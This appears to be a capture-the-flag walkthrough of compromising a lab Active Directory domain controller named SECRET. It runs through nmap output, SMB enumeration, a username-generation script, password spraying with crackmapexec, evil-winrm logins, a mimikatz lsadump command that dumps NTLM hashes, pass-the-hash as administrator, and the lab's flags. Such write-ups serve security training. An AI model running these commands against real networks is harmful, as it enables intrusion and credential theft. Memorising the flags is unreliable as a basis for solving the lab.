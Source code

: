 # SECRET / Active Directory

![](../.gitbook/assets/4d38101776224c698b56def9fb422cce.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-13 15:25:57Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: SECRET.org0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 127 Windows Server 2019 Standard 17763 microsoft-ds (workgroup: SECRET)
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: SECRET.org0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SECRET
|   NetBIOS_Domain_Name: SECRET
|   NetBIOS_Computer_Name: SECRET-DC
|   DNS_Domain_Name: SECRET.org
|   DNS_Computer_Name: SECRET-DC.SECRET.org
|   DNS_Tree_Name: SECRET.org
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-13T15:26:51+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## SMB ENUMERATION

```text
smbclient -L \\\\172.31.1.4\\ -N
```

![](../.gitbook/assets/617f2327f23c4c26a36a628dede669cd.png)

* SHARE OFFICE\_SHARE

![](../.gitbook/assets/9c3444ef61ce443fb5cf4114b3c1917d.png)

![](../.gitbook/assets/21173fd843954668ab5531c6e674bcda%20%282%29.png)

![](../.gitbook/assets/af46b71057454a84a680e4201065340d.png)

![](../.gitbook/assets/340129f426fd4042ae447fcaccb71f0a.png)

```text
SecretOrg!
```

### USERS ENUMERATION

```text
Ben Dover
Joe Cakes
Kurby Curtis
Lee Frank
```

Combined the Users found using this script

```python
#!/usr/bin/env python3

file_name = "names.txt"

with open(file_name, "r") as f:
    lines = f.readlines()
    for line in lines:
        line = line.strip("\n") # remove the unneccesary new lines (\n)
        
        name = line.split(" ") # split the names by space
        # print the usernames in 3 different formats
        print(name[0] + name[1])
        print(name[0][:1] + name[1])
        print(name[0] + name[1][:1])
```

```text
crackmapexec smb 172.31.1.4 -u ./combined.txt -p 'SecretOrg!' --shares
```

![](../.gitbook/assets/e5e9ed66d20745d7a8cb3ff0834d1c34.png)

![](../.gitbook/assets/5cf66c75bd364134a1523999f88b5558.png)

### LET's try to login with evil-winrm

```text
jcakes:SecretOrg!
```

![](../.gitbook/assets/33a241b6f1364fc9a54450890d8e9192.png)

![](../.gitbook/assets/29273abe119d447bac73c974514bdb88.png)

## WINPEAS FINDINGS

![](../.gitbook/assets/cd4138e759c54f87b5349161572f90df.png)

```text
vF4$x9#z:-eT~Fy
```

## USE CREDS FOUND

```text
administrator
bdover
kcurtis
lfrank

```

![](../.gitbook/assets/250543aefe574dc2948a9e63fae85e4b.png)

```text
bdover:vF4$x9#z:-eT~Fy
```

### LOGIN WITH BDOVER CREDS

![](../.gitbook/assets/5c02bc9b47114053b3cf4dc1d4c0cb28.png)

## GETTIN ADMIN CREDS

* Upload mimikatz.exe and run this command

  ```text
  .\mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"
  ```

![](../.gitbook/assets/03ef921b9af54213ba0cfb6ef0ea5eca.png)

```text
administrator:4d801e8c043133366056b5cd6fdcc2c7
krbtgt:273ba21a421f03e6c4345ec16642bd1d
```

## LOGIN WITH ADMINISTRATOR HASH

```text
evil-winrm -i 172.31.1.4 -u administrator -H 4d801e8c043133366056b5cd6fdcc2c7
```

![](../.gitbook/assets/956c286a61d740568e66cde2485290cd.png)

## FLAGS

### USER

```text
f32dae1bca59aea4a591f970f7aa4d2c
```

### ROOT

```text
7b50e84e903c4cfad6498977632fd763
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

